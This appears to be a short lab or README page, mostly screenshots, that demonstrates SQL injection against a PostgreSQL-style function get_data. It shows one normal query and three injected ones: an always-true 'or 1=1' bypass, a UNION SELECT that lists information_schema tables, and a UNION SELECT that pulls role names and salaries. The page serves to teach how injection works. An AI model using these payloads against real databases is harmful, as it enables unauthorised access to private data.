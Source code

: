 ![1](https://user-images.githubusercontent.com/56599282/209482379-8fe47dcb-e2c4-436c-9b0d-7e48a2433dff.png)

```sql
select * from get_data('Sidorov');
```  

![2](https://user-images.githubusercontent.com/56599282/209482395-da2c87e1-c8a1-4b8a-aacb-1885a712c754.png)

```sql
select * from get_data('any'' or 1=1 -- ');
```  

![3](https://user-images.githubusercontent.com/56599282/209482516-30fee73f-2f9f-4785-99e9-cd314d32ae9d.png)

```sql
select *
from get_data('1'' union select -1,cast(table_name as varchar),0 from information_schema.tables -- ');
``` 

![4](https://user-images.githubusercontent.com/56599282/209482519-f6825db8-8e0c-4004-92c4-7f216f80b568.png)
 
```sql
select *
from get_data('Sidorov'' union select -1, role_name, salary from role2employer --');
```  

![5](https://user-images.githubusercontent.com/56599282/209482522-ba63c557-b4bc-4f13-93f8-79c7b5304289.png)
